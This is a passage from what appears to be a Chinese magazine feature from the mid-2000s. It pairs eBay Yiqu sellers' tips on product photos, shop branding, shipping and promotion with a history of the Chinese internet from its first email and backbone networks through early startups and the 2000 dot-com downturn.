说拍摄，那肯定要先准备必要工具——数码相机。大家不要觉得要拍出清晰的图片一定需要五六百万相数的数码相机才能够完成，其实一般两三百万相数的相机就足够了。把物品摆放在白纸上拍摄是最简单的，既免去了后期图片制作扣图的烦恼，又节约成本。值得注意的就是光线问题，有的时候光线不到位，往往拍出来的照片不是颜色失真，就是曝光过度。为了避免这个问题，我一般都是在室外阴凉地方拍摄物品。在能够保证充足光线的前提下，在室外拍摄拍出来的商品也是最接近物品本身色泽的。现在网络上还有简易摄影棚卖，对物品拍摄要求甚高的朋友可以考虑购买。

# 打造网店的金字招牌

店长：小玲子
开店时间：2年半
主营项目：地方特色麻辣小吃
店铺名称：Hotfood重庆麻辣小吃店
店铺链接：http://stores.eBay.com.cn/cnhotfood

谁会想到在网上开个小店，食品也能卖？就有人这么做了，而且现在入行的人越来越多。重庆的麻辣小吃在全国可算是很有特色的食品，我身处这个城市，自己也喜欢吃重庆小吃。于是灵机一动，何不把这些东西放到网上让外地朋友也能尝尝呢，这个不错的念头使我萌生了在网上开店做这门生意的打算。
2002年9月，我的小吃网店终于开张了。其实当初开店的时候，易趣上也有几家在卖小吃的，但是买家都分不清哪家是哪家，因为他们登录的商品就只有小吃本身的名称。为了让买家能够轻松地识别出自己的店铺，于是冥思苦想，最后决定把小吃店命名为“Hotfood重庆麻辣小吃店”，并在自己登录的商品名称中也加入“Hotfood”这个商标。不想随着小店经营规模的不断扩大，“Hotfood”这个小吃品牌已经深入人心，成为了金字招牌。下面我跟大家聊聊如何打造自己网店的个性名片。
这里我们说的名片不是指真实的名片，而是你店铺的特有的标志，能够树立店铺良好的形象，帮助买家轻松地识别。在你初来易趣卖东西的时候，就要考虑是只想玩票性质的享受一下交易乐趣，还是下定决心要在网上干一番事业。如果是后者，那么，请你一定要事先斟酌给你的小店取一个“响亮”的名号。

# 如何制作个性名片

这就需要店长自己的创意和精心设计了。这个名片可以是中文的，也可以是英文的，当然也可以中英文混合。越简单、醒目，并且能体现你店铺出售的商品性质和特色，就越有效！以我店铺的名称为例，Hot，是热的意思，也有辣的含义，而且诸如“Hotmail”这些知名品牌也使用“Hot”作为前缀，而food的意思显而易见，就是食品——Hot+food，就是卖麻辣小吃的最好选择！然后后面的中文更进一步强化“重庆麻辣小吃”这个概念，不但易懂好记，而且极具品牌价值。
经过一番良苦用心设计好的名片，需要你精心地运用。名片可以在店铺的名称、登录的商品名称、物品展示图片里进行统一的展示，这不仅可以让买家再次牢记店铺，也可以防止其他卖家盗用。
你的个性名片运用的时间越长，在买家眼中出现的次数越多，你店铺的知名度就越高，那么慕名而来的买家也就越多，生意自然是节节攀升了哦。

# 商品递送有讲究

店长：金年华
店铺名称：金年华体育正品专卖
地址连接：http://stores.eBay.com.cn/jinnianhua

说起认识eBay易趣，我觉得这是我这一生最大的荣幸和财富。真的是这样我没有办法用语言表达出我对eBay易趣的那种热爱，这是一种微妙的感觉。因为eBay易趣给了我太多太多，如果没有eBay易趣我可能现在还是一个普通打工族，可是现在我已经在网下拥有了一家实体店铺，并且在网上拥有全球各地的客户成了名副其实的老板了。eBay易趣成就了我的事业，成就了我的梦想，成就了我的人生……
起初刚在网络上做生意的时候也总是遇到许多的困难，一开始的时候我的信誉很少，卖东西的时候总不能卖到一个很好的价格，那时看到大卖家们每个月有那么多的交易量，而且交易的价格又很高，心理真是又羡慕又嫉妒！从那时起我就暗自下定决心，一定也要做的跟他们一样好。网络交易最重要的就是给对方安全感和信心，我当时做了一套非常正规的HTML格式的成交模板邮件，非常漂亮，而且给人一种很正规的感觉。并且用我的真诚和热心赢得了一批又一批的好朋友的认可！也许是东北人性格直爽的原因我和这些客户在购物的交流中逐渐的成为了非常好的朋友。直到今天我仍然觉得，eBay易趣带给我的不仅仅是一份财富，带给我更多的是我这一生的朋友，让我受用不尽的朋友！每当我最困难的时候都是他们在鼓励我，每当我有任何做的不好的时候都是他们来提醒我，每当我有任何荣耀事都是和他们一起分享，是的，我爱我的这帮朋友……
记得当时最棘手的问题就是邮递问题。刚开始的时候总被邮局的工作人员欺骗每次都让我发快递的单子，导致我的运费总是居高不下。时间长了才知道，原来还有一种邮递是普通邮递，价格几乎便宜了一半还多，时间上和快递只差三五天！从那时候开始我就把邮递分成了三种方法，对比较要求价格而不要求时间的客户发普通包裹，对比较要求时间的发快递包裹。对有特殊要求的客户发送EMS包裹！但是我的业务量一天比一天大了起来，从以前的一周去2次邮局变成每天都要带一大堆包裹往邮局跑，包装和填写单子的时间就占据了很长一部分。为了把自己的时间充分利用，并且提高发货速度。我开始自己联系起了快递公司，再尝试了几家后，我终于找到了一个适合自己的。和他们的经理详细商量后我们便和这家公司开始了正式合作。东北地区的运费价格基本7块可以搞定，其他的城市也能控制在10元每公斤，太远一点的最多15元！这样一来，有专门的人员帮我上门包装上门取货，给我带来了很大的方便，一来可以节约时间和成本，二来提高了发货效率，还不用天天去跑邮局真是清闲多了！所以建议我们的新卖家朋友当你的业务量做到一定程度，你就可以找一个适合自己的快递公司来谈，这样真的会给你带来不少便利。对了还有一点要告诉所有新朋友，去邮局发包的时候是可以贴邮票的，这样你就可以把家里闲着没用的邮票利用上喽……
三年的时间过去了，现在我已经是以易趣体育分类做正品运动鞋行列中的名牌店铺，靠的就是信誉和真诚，坚决不销售假货。只要你有信心，相信自己，有良好的信誉和做人的准则，遇到困难不要怕挫折，相信你也一定会像我一样成功。对了还有一个小秘密要和大家分享，这几天我做了一个大客户，他竟然是个一级的大明星。想知道是谁吗？来我的小店坐坐吧！

利用互联网来为自己做宣传，这点应该是网上开店成功推广的前提。

# 宣传网店七招足够

营销专家：王峻
郑州通王信息技术有限公司电子商务咨询专家。
电子商务指南站：http://www.eczn.com

- 1. 交换友情链接
为了提升自己网店的人气，增加流量，在准备开店之时就应该多留意一些与自己网店内容相关或相近的网站，特别是那些流量高人气旺的，可要细心收好喽，等自己的小店建成之后，就可以与他们谈链接的事情了。当然，建店初期，别人可能因为你的网站没有流量而不予理会，这就需要你放下姿态，诚心诚意地与他们交谈，只要心诚，再加上自己已在小店里做好了他们的站点链接，相信你的网站也会很快出现在他们的站点上，相互宣传嘛。

- 2. 校友录宣传
大凡离校园没多时的你都有自己的校友录吧，有没有想过要把它合理利用起来呢？走上前去，告诉你的同学、朋友，自己开了家网店，不但能让师友同你一起分享开店的喜悦，同时也等于是聚集人气了，说不定还有他们心仪的产品呢，如此，又拉了一批潜在客户。

- 3. 印制名片
也许你会说，既然大多是在网上宣传的，大家谁也见不到谁，做名片岂不是浪费成本吗？错！店虽是开在网上，但你是生活中的你，给买家邮寄宝贝也是在现实中进行的。设计一张独具个性的名片，印上自己的联系方式和小店的地址，在邮寄时不妨放几张进去。因为外观设计精美，买家自舍不得丢弃，如有机会，对方一定会将它展示给别人，这样，等于说是在帮你做宣传了。呵呵，细节之处，就看你会不会想得到了。

- 4. 运用关键词排名
就是所说的SEO技术。可以与一些做网络推广优化的公司合作，请他们为自己的网店出个方案，全面提高网站排名。排名靠前了，被客户搜索到的几率也就增加了数倍，同时也发展了许多潜在客户，只要在你的网店里对了口味，有他们需要的东西，就不难让他们成为你的准客户。通王信息技术有限公司就是一家致力于网络营销研究、策划的网络公司，王总王通先生近期的一本专著《搜索引擎排名秘笈》，详细介绍了如何优化网站，提高排名，有兴趣的朋友不妨到http://www.seo.net.cn里看看哦，技多不压身，多学点肯定对你宣传网店有好处的。

- 5. 更换内容新耳目
其道理不言而喻，更换页面，会给人一种耳目一新的感觉，不要老是板着一副死气沉沉的面孔，会让一些店友感到厌烦的。如果你的店里近期实在没有其他项目，也没有新产品，但也不要忘了，调换几种商品的位置，或加入些新的文字，总之，要常来常新才会吸引人哦。

- 6. 泡坛泡得元宝来
喜欢上论坛吗？不要以为泡坛子就是跟玩连在一起的，只要泡得有技巧，照样也能给你带来效益。每个论坛基本都有个人签名这一项，你不妨将它利用起来，将你网店的地址及联系方式附上去，或以文字的形式，或者做成精美的图片，在你发帖或回复别人的帖子时，它就会自动显示在下面，既免除了做广告之嫌，又能以个性的图片展示自己，宣传网店。拉多了客户，还愁金元宝不往你口袋里飞吗？同样的方法也适用于邮件的后缀签名。

- 7. 以文会友引客源
从萌生开店念头，到建站、采购货源，再到开始销售，相信如果坐下来让你讲的话，酸甜苦辣咸，定会让你说上个一夜未休。提起旁边的笔吧，把它们以文字的形式写下来，可以放在自家小店，也可以转发各大流量高、人气旺的相关网站、论坛。可不要小看这一枝笔，它会让你结识更多志同道合的朋友，同时，日益渐增的流量与订单也会让你乐得合不拢嘴。

# 18岁 中国互联网长大了

## 1亿网民 中国互联网的成人礼

前不久，中国互联网络信息中心发布的最新报告显示，内地网民数达到1亿300万，这是中国网民首次过亿。中国互联网经过18年的发展，突破了一亿，居世界第二位，13个中国人就有一个上网，尽管没有悬念，但这是一个里程碑似的数字。

一亿网民是互联网发展的一个新起点，包括三层意思，一是网民数量上达到了亿级，毫无疑问这是一个里程碑式的数字；二是商业的巨大驱动能力将会首先在互联网发达地区显现出来，在应用的深度上有所突破，充分挖掘现有网民的商业价值。三是互联网时代的每个人都要做好准备，迎接更大的创造性变革。

1亿网民背后蕴涵着一个巨大的市场，每一个能抓住网民需求的互联网商业应用，都可能产生非常可观的经济效益。比如报告显示，我国网上购物大军达到2000万人，网上支付的比例增长至近半数，网上购物市场巨大，网上购物者半年内累计购物金额达到100亿元，半年内通过网络购买的手机在300万部以上。

互联网经济有了规模效应，任何一个互联网的应用，包括现在的一些增值业务，一些收费业务等等，有1亿网民的规模做基础，那将是一个非常可观的产业。

规模剧增的同时，业务也越来越细分化了。网民过亿了，他们的口味可以说繁多，那么需求就繁多，多元化的需求可能就会带来一些非常行业细分的领域，比如原来是一个很小的企业，或者说微不足道的企业，现在网民有需求了，加上1亿的规模可能会产生非常好的经济效益。比如报告显示，用户半年内购买的网络游戏虚拟物品（包括：装备、武器、身份等）平均费用总额为178元。

互联网的第二春真正来临了。CNNIC 7月21日发布的2004年中国互联网大事记中，数家中国互联网公司上市已经显露出这种趋势。

然而，追忆18年前的往昔峥嵘岁月，一代又一代的互联网人为了这次中国互联网的成人礼前赴后继。

### 小知识
#### 时空坐标上的一亿网民

从媒介受众数量的成长来看，在世界范围内获取5000万受众所需要的时间，报纸是50年、广播是30年、电视是15年，而互联网仅仅用了3年。和整个互联网相比，中国互联网获取5000万网民大概花了8年，之后不到3年这一数字就突破一亿了。人口的庞大基数使网民增长的潜力仍然相当大。

从世界的范围来看，统计显示，目前全世界的网民大约9.3亿，内地网民占1/9强，全世界每9个网民中就有一个中国人。从亚洲范围来看，亚洲网民约3亿2000万，内地网民占1/3。与互联网头号大国美国相比，中国的网民数是美国的一半，最新统计表明美国网民数为2亿900万左右。

从互联网普及率来看，中国的互联网普及率只有7.9%，离世界的平均水平13.9%还有相当距离，和亚洲8.4%的普及率相差不大，而美国67.8%的普及率则是中国的8.6倍。中国互联网普及率仍是信息化战略的一个主要问题。

## 追忆拓荒岁月

从20世纪80年代中期开始，中国科技人员开始了解到国外同行们已经采用电子邮件来互相交流信息，十分方便、快捷。中国互联网的发展，和世界上大多数国家互联网发展相似，最初都是由科学研究的需求而推动发展的。

1993年，中国科学院高能物理研究所开通了64K专线，连入美国能源网。但由于政治原因，这条专线只能连入美国能源网内部。在ISOC（Internet Society，互联网社区）发表的世界地图上，中国仍然被标为没有互联网的国家。

1994年初，中国科学院、清华大学和北京大学经过近两年的努力共同建设的我国第一个大规模TCP/IP网络NCFC，终于在中美科技联合会议之前，正式接入国际互联网。互联网正式接入中国后，中国四大骨干网相继展开建设，拉开了中国互联网发展的序幕。

### 接入Internet 再难也得上

1992年6月，日本神户。在国际互联网1992年会上，中科院钱华林研究员首次约见美国国家科学基金会国际联网部负责人Steven Goldstein先生，讨论中国正式连入国际互联网的问题，但被告知，由于网上有很多美国的政府机构，红色中国的接入会有政治障碍。

1993年6月，美国旧金山。在国际互联网1993年会上，是NCFC专家们讨论此事的最忙碌的时刻。国际互联网1993年会后，数十人移师旧金山以北七十多英里的一个海湾，召开“国际科研网络协调委员会”会议，会上有一个议题专门讨论中国的“入网”问题。钱华林研究员向国外专家介绍了NCFC的进展情况，重申了我国与国际互联网连通的要求，得到大部分到会人员的支持。经过多方努力，美国政府放宽了对我国的限制，但要求我国签署并遵守他们的准用协议——即要求网络只能用于科技和教育，不得商用，并制定我们自己相应的准用政策后，可以连入美国的互联网。

此后，在美国华盛顿举行的由中美两国政府代表团参加的中美科技合作联委会上，中科院副院长胡启恒院士代表中国政府向美国国家科学基金会正式提出要求连入互联网，并得到认可。

1994年4月20日，这是一个标志性的日子，在那一天，经过努力，中国终于可以全方位地访问Internet。

在北京，中科院计算机应用研究所钱天白研究员在德国卡尔斯鲁厄大学Zorn教授的协助下，5月21日完成了中国国家顶级域名（CN）的注册，运行了中国自己的域名服务器，在NCFC主干网设了主服务器，在美国和欧洲设了四个副服务器，改变了中国的顶级域名服务器一直在国外运行的历史，揭开了我国互联网发展的新篇章。

### 建设骨干网 打基础的日子

中关村地区教育与科研示范网络，即NCFC工程于1990年4月启动，主干网于1993年底建成，将中科院、清华大学、北京大学三个院校互联。

记者采访中国互联网前辈，清华大学胡道元教授时，知道了NCFC工程的立项的一段“偶遇”。

1989年冬天，胡道元参加完东北大学刘积仁博士的论文答辩后，在回京的列车上，偶遇原国家计委高科技司的领导，这位领导正陪同世界银行向中国高新科技提供贷款的官员和专家进行考察。胡道元抓住这次机会，用英语和外国专家直接交流，并向外国专家建议，世界银行应考虑为中国互联网建设提供资金。

世界银行官员和专家参观完清华校园网后，对清华校园网的建设感到很兴奋。随即，国家计委和世界银行专家组决定从立项的两亿美元各个项目中分别抽取一部分资金，资助我国搞中关村地区的教育和科研示范网，即把清华、北大和中科院连接在一起的NCFC工程。

NCFC工程建设的完成，为了使全国的科技人员能尽快地共享这些网络资源，中国科学院于1995年4月开始实施京外单位的联网工程，俗称“百所联网”工程，其目标是在北京地区已经入网的30多个研究所的基础上把网络扩展到全国24个城市，实现国内各学术机构的计算机互联并和Internet相连。

### 小知识
#### 互联网挽救了朱令的生命

> 1995年3月初，清华大学92级女生、21岁的朱令突患疑症，陷入昏迷状态，生命垂危，3月15日住进北京协和医院，朱令中毒原因始终未能查出。朱令的高中同学、北京大学力学系92级学生贝志诚和几个同学一起将报刊上发表的关于朱令病症的报道译成英文，通过Internet向世界发信，进行全球医学专家远程会诊，这也是我国首次网上医疗会诊、救助行动。信发出仅3小时，就收到回信，世界各地陆续回信1500多封，30%的信认为是“铊”中毒，为抢救赢得了时间。1995年4月28日，经我国“铊”中毒课题研究专家陈震阳教授确诊的确是“铊”中毒。经全力抢救，朱令昏迷6个月后终于脱离了危险。

## 钱天白和第一封电子邮件

1987年9月20日，钱天白先生发出了第一封“越过长城，通向世界”的电子邮件，这封电子邮件经由意大利，到达德国卡尔斯鲁厄大学的一台服务器上。国内科学家收发E-mail，非常昂贵，信息送出去要付钱，收信息也要给钱，当时1K字的信息要7元钱。而美国人、欧洲人发E-mail已经很便宜甚至免费，有什么消息就发送过来，但不收就不知道是否重要，收回来却发现很多信息不重要，但钱已付了。

同年11月，钱天白作为来自中国的代表出席在美国普林斯顿召开的国际学术计算机网络年会，在大会上，钱天白对CANET的发展情况作了介绍，引起了各国代表的热烈反响。1990年10月，由钱天白代表中国正式在国际互联网络信息中心的前身DDN-NIC注册登记了我国的顶级域名CN。从此，开通了使用中国顶级域名CN的国际电子邮件通信服务。

1988年，胡道元教授从UBC大学带回来一个EAN软件包，开始了连接使用电子邮件的尝试。清华大学的这套电子邮件系统采用本地独立的邮件服务器，使中国的电子邮件应用迈上了一个新的台阶。

1991年，高能所连入美国斯坦福线性加速器中心，开通了电子邮件。随着中外学者交流的不断深入，以及一些外国专家要到北京来合作项目，高能所逐渐感到每年巨额X.25通信费用很难承担，于是就决定租用AT&T公司的国际卫星信道建立与美国SLAC国家实验室的64K专线。

据该项目的负责人，高能所计算机中心的许榕生研究员介绍，1993年这条专线正式开通，它是我国实现部分连入互联网的第一条专线。这条专线通过北京三元桥的国际通信局租用卫星，直通美国旧金山市，然后通过电缆连通斯坦福大学。在中国这边，三元桥那儿接通821局，然后一条街一条街地检查线路，这样就搞了18个月。同时美国商业部当时限制路由器（Router）出口中国，而美国科学家却到斯坦福加速器中心借了一个。

国家基金委大力配合，投资30万元，使各个学科的重大课题负责人能够拨号连入高能所的这根专线上。这根专线在1994年4月中国正式连入互联网后，也实现了互联网的全线连通。与此同时，为了减少信号延迟，该信道于1995年初改为通过海底光缆连接到日本进入互联网。几百名科学家在我国得以使用电子邮件。

中国各地的一千多名科学家是这个新生事物的第一批使用者。电子邮件是互联网在中国最初也是最主要的应用。

1995年开始，探索互联网的商业应用。

## 小知识：最早的四大网

1995年5月，中国电信开始筹办CHINANET。1995年12月，中国教育科研网通过国家计委主持的验收。金桥网也于1996年9月正式宣布开通。加上最早的中国科技网，这是我国最早的四大网络。

## CHINANET

1994年4月NCFC工程正式开通到美国的64K专线，邮电部门也看到了互联网的发展趋势，其用户必将扩展到全社会各行各业，邮电部门开始筹划建设中国公用计算机互联网。1996年1月，中国公用计算机互联网的正式开通，标志着中国的互联网用户从科技教育界已经转向全国各行各业。从那时开始，中国人开始接触到互联网这个新生事物，开始认识并逐步进入网络所代表的数字化生活。

## CERNET

NCFC工程建成以后，除清华和北大的广大高校也提出了使用互联网的迫切要求。于是1994年10月，由国家计委投资，国家教委主持的中国教育科研计算机网(CERNET)开始启动，该项目的目标是建设一个全国性的教育科研的基础设施。1995年8月8日，水木清华BBS正式开通，成为我国第一个互联网上的BBS。那天正是个好日子，人们当然不知道在13年后，也就是2008年8月8日，29届奥运会将在北京开幕。

## 金桥网

中国金桥网是国家经济信息化的基础设施。1993年8月，当时的国务院李鹏总理批准使用300万美元总理预备金支持启动金桥前期工程建设。作为被国家认定为两个可提供互联网商业运营服务的互联网络之一。1996年9月，金桥信息网互联网业务正式宣布开通，主要提供专线集团用户的接入和个人用户的单点上网服务，可为用户提供高速、便捷的服务。

## 燃情年代

1995年8月，网景公司在美国纳斯达克上市，发行价每股28美元，世界新经济时代开始。网景的上市被公认为是全球网络经济的一个转折点，从这一天起全世界进入了一种前所未有的疯狂和执着中。就在网景上市的同一时间，中国电信正在筹建中国第一个公用国际互联网网络，当时的互联网网民数大约为2000户。1995年，中国人开始探索如何实现商用。从1995年商用化以来，互联网在中国的发展正好经历了十年。最早一批提供接入服务的ISP以推动互联网普及应用为目标，虽然一度声名大噪，结果却是长期严重亏损，这其中，代表性的瀛海威公司，总投资达一个多亿，在不到两年的时间就消耗殆尽。但那些做信息服务、BBS、E-mail邮箱的企业要好得多，虽然有相当多的此类企业被淘汰，却也有如新浪、网易、搜狐等企业最终发展起来，并获得了巨大成功。

互联网创造了很多神话。从张树新到王志东，从丁磊到陈天桥，互联网的成就汇聚在极少数人身上，他们创造了财富神话。与此同时，互联网浪潮汇聚了无数热血青年、创业者和投资者。互联网的创业和投资的激情，互联网独特的自由、开放、理想，远远超越互联网和资本财富本身。

## 先驱的故事

1995年，一块瀛海威公司的广告牌竖立在北京白石桥路口。这块广告牌上写着：“中国人离信息高速公路还有多远？向北1500米。”白石桥路口向北1500米的魏公村，就是瀛海威公司所在地。那时，没有多少人听说过网络或电子商务，甚至没有多少人知道互联网是什么样子的情况下，瀛海威给了人们许多对未知世界的遐想。1995年，人们经常可以在电视、报纸和广播里听到和看到有关瀛海威的消息。张树新等成为中国互联网的第一代创业者。

但是，当时由于中国社会环境和人们对互联网的认识，使张树新和瀛海威的发展面临障碍。张树新自己描述说，在1994年底到1995年初之间，我们走入互联网行业，是一种不幸，也可以说很有幸。作为最早在中国做互联网的一群人，我们遭遇了互联网在中国发展所面临的所有问题。记得当时我第一个去邮电部申请做互联网服务时，没有人知道把它放在哪一类；没有人知道如何去收费。1997年6月邮电投资70个亿的169全国多媒体通信网启动，瀛海威受到明显的冲击。1997年8月，瀛海威提出转型，向金融服务方向转。而同年，网易、新浪（前身是四通利方论坛）、和搜狐的崛起也对瀛海威形成挑战。

1997年瀛海威的全年收入为963万元，而仅广告宣传费即为3000万元。由于香港金融危机，1997年12月，中策公司终止了参股瀛海威的想法，瀛海威开始收缩战线。也是在这样的背景下，瀛海威接受了中国兴发集团的注资。1998年6月，张树新辞去瀛海威总经理的职位。1998年11月，除了总经理以外的全体瀛海威中高级管理人员集体辞职。和瀛海威几乎同一时期发展起来的中国第一拨网络公司，几乎全部倒下。瀛海威是互联网在中国发展的实验品，张树新在瀛海威的结局有一种宿命的感觉。

## 资本的故事

中国商用互联网的发展从一开始就和资本纠缠在一起。“资本方面大家都很清楚，我就不再多说了，早年拿第一笔钱难得比登天还难。当时所受的挫折和内心的伤痕到现在还没有消除。因为当时简直是在完成一件不可能的事情，国外没有人相信中国还有互联网，所以为融100多万绕了地球跑了那么多圈去说服。而现在坐在东方君悦酒店，能看到很多的风险投资者都在走廊走过，所以现在是山花浪漫的时节。”这段话是张朝阳今年6月底搜狐公司举办的“2005中国互联网与新通信高峰论坛”所说。

和张朝阳相比，王志东的创业资本获得比较顺利。1993年，他就从四通公司那里拿到500万港币。但到了1997年初，四通公司投入的500万港币花得差不多了，在国内又拿不到其他投资，四通利方需要从国外融资。

1997年，王志东开始在美国、新加坡等地和投资商接触。经过谈判，王志东从华登投资公司、RSC、艾芬豪国际集团三家风险投资商那儿一共拿到了650万美元的风险投资，领头的华登投资300万美元，艾芬豪公司投资200万美元，RSC投资150万美元。此次融资后，以华登为首的三大投资公司占了四通利方的大部分股份，管理层也获得了10%的股票期权，王志东的20%股份被稀释成了13%。

正是在谋求风险投资的过程中，四通利方走上了风险投资设计的道路。那时的四通利方还是一家软件公司。1996年初四通利方开始实施所谓互联网战略，首先是网络版的出现，然后是4月汪延归国组建国际网络事业部，并推出利方在线网站。1997年底，四通利方统计了一下利方在线的点击率，居然超过了90万，而1996年4月雅虎在美国上市时的日点击率也只有100万次。

1998年世界杯期间四通利方在线的广告收入达到了18万元人民币。当时组织利方在线世界杯报道的陈彤说，好像一下子看到了前面的路一样。在风险投资的指挥下，四通利方从一个中文软件平台变成日后的全球最大中文网络，风险投资商手里的工具就是资本和资本规则。

## 创业的故事

在互联网成功的创业者故事中，丁磊具有典型性。1997年底，网易公司开发出来的软件，是一个用于互联网上的免费电子邮件系统，类似于Hotmail，可以让网民在网上免费收发电子邮件。1998年2月，国内第一个全中文界面的免费邮件网站163.net开始给网民提供服务，注册用户数量以每天2000人的速度增加，半年时间内达到了30万用户。看到163.net的成功，许多公司纷纷购买邮件系统，网易就以十万美元的价格卖给首都在线一套。开发大容量邮件服务系统，是网易由生存转向发展的一个重要飞跃。到1998年底，公司有了近400万元的利润，都来自于销售免费邮件系统等软件。

1996年，丁磊曾在一家广州ISP公司飞捷打工，在那里他开辟了飞捷BBS，聚集了广州第一批网民，这个BBS成为网易BBS——即后来的网易虚拟社区的前身。丁磊开发网易BBS时，飞捷BBS的活跃用户就全跑过来，给网易BBS带来非常旺的人气。当时用“北有清华(BBS)，南有网易(BBS)”来形容网易BBS的影响。

BBS之后，网易推出了功能很强的免费个人主页服务，令其名声大震，这成为网易发展史上的里程碑。1998年9月，受雅虎、搜狐等网络门户大受欢迎的影响，网易将主页改成网络门户，并启用netease.com的域名，后来改为163.com，在纳斯达克，网易的股票代码是NETE。网易一路坎坷，在上市后由于财务报表的问题，差点被摘牌，但现在在纳斯达克中国网络概念股中表现的极其出色。丁磊对网易将近60%的股权，也使其稳居中国内地富豪榜前列。

1999年，是20世纪的最后一年，那年，各种媒体在大肆炒作“千僖”概念，大家都在等待21世纪的钟声敲响，那是一个激情四射的年代。在中国互联网界，人们探索着多种模式。海归青年李彦宏在1999年底创办百度，任百度总裁。百度公司在2005年8月初在纳斯达克上市，李彦宏也成为网络新贵。

## 小知识：72小时网络生存测试

1999年的9月3日至9月6日，在中国的互联网上最引人注意的站点恐怕就是一个叫做“梦想家”的网站了。他们推出了一项令人心动的活动——中国首次网络生存测试。在为期3天的测试期内，位于北京、上海、广州的12位志愿者凭着1500元人民币和1500元电子货币在与外界隔绝的测试用房内度过了72小时。参赛者之一的王学峰回忆时说：“第一天挣扎五个小时我喝上了豆浆；第二天奋战24小时，我只拿到3张VCD和一盒巧克力；第三天真的开始怀疑，网络生存是不是一只花瓶。”此后的2003年，第二届“100小时网络生存测试”曾一度出现女主角难以寻觅的尴尬。

## 艰难的互联网寒冬

## 裁员与倒闭

2000年12月初，知名的中文图书网站博库网裁掉四分之一的员工。一位员工私下说：“看看自己的周围，我就知道这一天早晚要来临。”他说的话一点都没有错，在国内众多声名赫赫的网站里，博库网的裁员还算是晚的。此前，网站的裁员每天都在上演着，而且频率越来越高，某业界人士称：90%以上的网站已被卷入裁员潮中。而且，这种形势仍有可能持续下去。

看来，这正应了2000年初原新浪网CEO王志东的话，年底将要有90%的网站要死掉。他当时就强调，死掉有两种可能，一种是倒闭，一种是被收购。于是本来还盲目乐观的从业人员，如今真的无法再笑对这种局面：资金短缺、裁员、被收购或者倒闭。

其实，种种迹象早在2000年初就已经显现。2000年5月中旬，号称“全球首家网上时装网站”、欧洲最著名的电子商务网站之一的Boo.com宣布倒闭。这家创立于1994年的网上零售商在最风光的时候市值高达4.5亿美元，但最后只以三十多万美元的价格出售。2000年8月1日，香港最大的网上书店——博学堂突然自己进行清盘，实际上宣告倒闭。此后，明里暗里倒闭的大小网站不计其数。

裁员则是公司防止倒闭的保护性措施。2000年6月开始，一些知名的网站如Tom.com、苹果日报网和南华早报网等纷纷裁员。到8月14日，香港的人人网站(renren.com)宣布裁员102人，占公司总人数的1/3。而后来，包括中华网、硅谷动力等知名网站也挥起了裁员大刀，互联网业呈现出一派落叶过冬的景象。不久前，媒体纷纷以“互联网的寒冬”来形容互联网业的这种萧瑟景象。

## 寒风来自资本市场

无独有偶，美国《商业周刊》最近也发表了一篇题目为《互联网萧条？》的文章，文中指出，互联网公司破产或被收购的案例在2000年第三季度增加了一倍多，达到126家，比1999年同期增加了117%。而网络公司的裁员人数也达到了新高，今年第三季度有21,633人失业，比第二季度增加了70%。纳斯达克综合指数在3月份达到5048.62点的最高点后，在9月30日降到2583.73点，下降了49%。在这些数字的背后，是一大批互联网公司的倒闭、被收购或裁员，互联网业进入了严冬。

其实，互联网的萧条和资本市场的变化息息相关。2000年，由于美联储连续提高利率，以及纳斯达克市场对网络股的打压，使风险投资对互联网公司的投资热情降到了冰点。很多互联网公司由于资金链断裂而不得不关门或被收购。可以说，互联网的寒冬，实质上是资本市场的寒冬。

中有非常悲观的“科技萧条”、“螺旋下跌”等新造词语。

《商业周刊》总结了互联网萧条的主要原因：即在以高科技概念为中心的新经济里，高度“挥发性”的金融运作扮演了极为关键的角色，这使得新经济具有了极为陡峭的性格，快速蹿起，但也快速崩溃。

意思很清楚，过分依赖股市使得互联网产业骤起骤落。在纳斯达克股市大涨特涨的同时，几乎所有的互联网公司似乎都找到了一条发财致富之路：白手起家、吸收风险投资然后进军纳斯达克。可是自2000年4月份以来，纳斯达克的神话陡然破灭，一度风光无限的互联网公司于是也变得沉重起来。资本市场的收缩使大量的互联网公司无法获得计划中的资金，于是大量的互联网公司因为资金或管理、经营等问题而倒闭或被收购。于是网站倒闭年、泡沫破灭的恐怖气氛笼罩着整个行业。市场从对互联网经济的疯狂追捧回到了业绩决定公司价值的理性状态。就连一直对互联网情有独钟的软库首席执行官孙正义也调整了自己的投资策略，从投资网站转为投资技术与基础设施。

同样，在分析互联网寒冬因何而来时，许多人都提到，互联网的寒冬其实就是资本市场的寒冬。做过“我的网”(MYWEB)，又做过旌旗席殊(网上书店)的许晖先生并不赞成“互联网冬天”的提法，他认为这充其量不过是“.com的冬天”或“资本市场的冬天”。

## 投机与炒作注定是寒冬

面对资本市场寒冬的来临，一致沟通网络技术有限公司财务总监曹银先生分析说：“其实这一年来纳斯达克股指狂涨暴跌，说到底是非理性炒作和极度投机的结果。当高昂的股价与巨额的亏损是如此不协调时，市场除了暴跌，还有什么别的办法呢？”

也就是说，两年来的非理性炒作与过度投机，早已注定了资本市场的冬天的来临。对此，一直致力于软件技术研究的书生公司创始人王东临深有感触。他没有追赶.com的热潮，而是默默地开发出电子公文传输系统，并用它敲开了中国人民银行、中国农业银行、中国银行等一家家行业客户的办公自动化大门。

王东临认为，过去许多人在没有群众基础的环境下，爆炒各种商业模式的革命和改变，就像是在沙丘之上盖大楼。同样，中国的企业普遍缺乏一种产业链的概念。任何一个健康的产业，肯定要有一个比较完善而健全的产业链，这个产业才能流动、才能发展。“但在我们这里，所有人都希望做链条里最光亮的环节，去做网络交易、做网上书店、去做B2B、B2C。但实际上就目前来说，如果脱离了软件、技术、基础的服务，包括网络通讯，其结果一样是不牢固的”。

更值得强调的是，一个原本并未发育成熟的市场和没有形成稳定消费习惯的群体怎么能满足网络企业们梦一般的期望？过去的误区不是简单的资本市场过热，也不全是因为互联网的炒作，而是所有的商业模式、所有的业务运作都是以自我为中心，而忽略了互联网消费者。这样，许多“烧钱”烧得差不多、又没有明显盈利迹象的网站就只有两种选择：要么倒闭，要么卖掉。

在2003年底，中国互联网开始复苏，今年开始再度兴盛，为什么呢？一个是外在大的环境成熟了，人们已经开始接受和依赖互联网，另外就是企业一看上市不成，只有自力更生了，研究研究如何赚钱，穷人的孩子早当家。让我们看看现在的互联网是怎么赚钱的：

